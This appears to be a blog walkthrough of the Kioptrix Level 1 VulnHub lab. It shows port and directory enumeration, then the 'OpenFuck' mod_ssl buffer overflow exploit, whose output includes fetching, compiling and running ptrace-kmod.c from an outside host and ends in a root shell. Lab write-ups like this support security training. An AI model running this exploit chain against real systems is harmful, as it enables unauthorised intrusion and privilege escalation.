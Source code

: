 ```yaml
---
layout: post
title:  "Kioptrix Level 1 Walkthrough"
date:   2019-04-09 15:44:02 +0530
categories: [vulnhub, CTF]
---
```

Kioptrix level 1 is an easy vulnerable machine on vulnhub, link is below:<br>
[Kioptrix Level 1 download page]
<h2>1. Enumeration</h2>
<br>
The port scan below reveals several open ports including SSH, HTTP, RPC, Samba and 443.
{% highlight shell_session %}
nmap -T4 -sV -A -oN nmapscan.txt 192.168.0.66
Nmap scan report for 192.168.0.66
Host is up (0.0054s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey:
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1           1024/tcp  status
|_  100024  1           1024/udp  status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MMYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2019-03-28T23:46:31+00:00; +1h01m49s from scanner time.
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
1024/tcp open  status      1 (RPC #100024)

Host script results:
|_clock-skew: mean: 1h01m48s, deviation: 0s, median: 1h01m48s
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_smb2-time: Protocol negotiation failed (SMB2)
{% endhighlight %}<br>

<h3>1.1 OpenSSH port 22</h3>
Using `searchsploit`, there appears to be no known vulnerabilities in the exploit database for OpenSSH.
<br>

<h3>1.2 HTTP port 80</h3>
Running `dirb` reveals several interesting files including:

{% highlight shell_session %}
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirbresults.txt
URL_BASE: http://192.168.0.66/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.0.66/ ----
+ http://192.168.0.66/~operator (CODE:403|SIZE:273)
+ http://192.168.0.66/~root (CODE:403|SIZE:269)
+ http://192.168.0.66/cgi-bin/ (CODE:403|SIZE:272)
+ http://192.168.0.66/index.html (CODE:200|SIZE:2890)
==> DIRECTORY: http://192.168.0.66/manual/
==> DIRECTORY: http://192.168.0.66/mrtg/
==> DIRECTORY: http://192.168.0.66/usage/

---- Entering directory: http://192.168.0.66/manual/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.0.66/mrtg/ ----
+ http://192.168.0.66/mrtg/index.html (CODE:200|SIZE:17318)

---- Entering directory: http://192.168.0.66/usage/ ----
+ http://192.168.0.66/usage/index.html (CODE:200|SIZE:3704)

-----------------
DOWNLOADED: 13836 - FOUND: 6
{% endhighlight %}
<br>
The only files that appear to be out of place are `~operator` and `~root`. However, these files appear have
a CODE:403 and cannot be accessed so this is a dead end.

<h3>Port 80 is running:</h3>
-Apache 1.3.20 (Not vulnerable)<br>
-Red-Hat/Linux <br>
-mod_ssl/2.8.4 OpenSSL/0.9.6b<br><br>

Using `searchsploit` to search for these services, `mod_ssl/2.8.4` appears to be Vulnerable
to a remote buffer overflow exploit.
<br>
<h2>2. Exploitation</h2>
Exploiting the `mod_ssl/2.8.4` vulnerability:<br>
The exploit, remote buffer overflow named 'OpenFuck' and 'OpenFuckv2' appears
to be out date. However, i found a patched version of the exploit on Github linked below:<br>
[Fixed alternative version of 'OpenFuck' Github]
<br><br>
Executing the exploit:
<br>
The parameters are passed (version: 0x6b, IP address: 192.168.0.66 and open N connections: -c 50) <br>
{% highlight shell_session %}
./OpenFuckExploit 0x6b 192.168.0.66 -c 50

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 50 of 50
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8050
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$
exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304-
--11:16:09--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:80... connected!
HTTP request sent, awaiting response... 301 Moved Permanently
Location: https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c [following]
--11:16:10--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]

    0K ...                                                   100% @   1.87 MB/s

11:16:10 (1.25 MB/s) - `ptrace-kmod.c' saved [3921/3921]

[+] Attached to 7066
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
whoami
root
{% endhighlight %}<br>
<h2>3. Root access gained!</h2>
The `uid` and `whoami` command shows root access to the system using the OpenFuck exploit.



[Kioptrix Level 1 download page]: https://www.vulnhub.com/entry/kioptrix-level-1-1,22/
[Fixed alternative version of 'OpenFuck' Github]: https://github.com/heltonWernik/OpenLuck
